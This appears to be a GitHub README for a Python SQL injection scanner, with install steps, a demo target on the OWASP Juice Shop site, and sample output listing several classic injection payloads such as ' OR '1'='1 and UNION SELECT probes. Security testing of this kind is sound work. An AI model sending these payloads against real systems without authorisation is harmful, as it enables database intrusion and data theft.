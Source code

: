 # SQL-Injection-Scanner
A Python-based SQL Injection vulnerability scanner for web applications.
This project is a Python-based SQL Injection Vulnerability Scanner. It tests web applications for common SQL injection vulnerabilities using a set of predefined payloads.

## Features

- Scans a given URL for SQL injection vulnerabilities.
- Supports various SQL injection payloads.
- Provides detailed output on potential vulnerabilities.

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/itzzzzmeeee/SQL-Injection-Scanner.git

2. Navigate to the project directory:
   '''bash
   cd SQL-Injection-Scanner
   
3. Install the required Python libraries:
   '''bash
   pip install requests

4. Run the Vulnerability Scanner:

   To run the vulnerability scanner, use the following command:

   '''bash
   python vulnerability_scanner.py
   AFTER RUNNING THIS COMMAND
   
   The script will prompt you to input the target URL. For example:

   '''bash
   Enter the target URL eg : "http://demo.owasp-juice.shop/rest/user/register"
   The script will then test the URL against several SQL injection payloads and output the results.

5. View the Results:

   The scanner will display possible SQL injection vulnerabilities in the console.
   The output will show which payloads might have caused an SQL injection vulnerability, similar to the following:
     OUTPUT:
   
     [!] Possible SQL Injection vulnerability found with payload: ' OR '1'='1
     [!] Possible SQL Injection vulnerability found with payload: ' OR '1'='1' -- 
     [!] Possible SQL Injection vulnerability found with payload: ' OR '1'='1' #
     [!] Possible SQL Injection vulnerability found with payload: ' OR '1'='1' /*
     [!] Possible SQL Injection vulnerability found with payload: ' UNION SELECT NULL--
     [!] Possible SQL Injection vulnerability found with payload: ' OR EXISTS(SELECT * FROM information_schema.tables)--
     [!] Possible SQL Injection vulnerability found with payload: ' OR 1=1--
     [!] Possible SQL Injection vulnerability found with payload: ' AND 1=1--
     [!] Possible SQL Injection vulnerability found with payload: ' AND 1=2--
   

                                         ----ENJOY CODING----
